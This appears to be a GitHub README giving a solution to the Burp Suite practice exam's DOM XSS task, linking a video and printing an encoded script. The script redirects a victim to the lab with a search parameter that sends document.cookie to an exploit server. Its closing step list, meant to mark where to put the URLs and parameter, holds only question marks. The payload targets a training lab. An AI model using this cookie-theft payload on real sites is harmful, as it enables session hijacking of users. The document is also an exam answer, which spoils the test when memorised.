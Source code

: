 # BurpPracticeExamXSS

https://www.youtube.com/watch?v=fNoX_9v6-aY

Note: the search parameter changes from time to time in the practice exam, so make sure to replace the ?find parameter in the script below to what ever your parameter is

```
<script>
location='https://xxx.web-security-academy.net/?find=burpdomxss%22%2C%22test%22%3A(window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-xxx%252eweb-security-academy%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D)%7D%2F%2F';
</script>
```

## Where exactly you must input your URL information and search parameter information into this script:

1 - the place of the URL LAB:
```
?
```
2 - The pace of the exploit URL server:
```
?
```
3 - Where you must input your search parameter: 
```
?
```
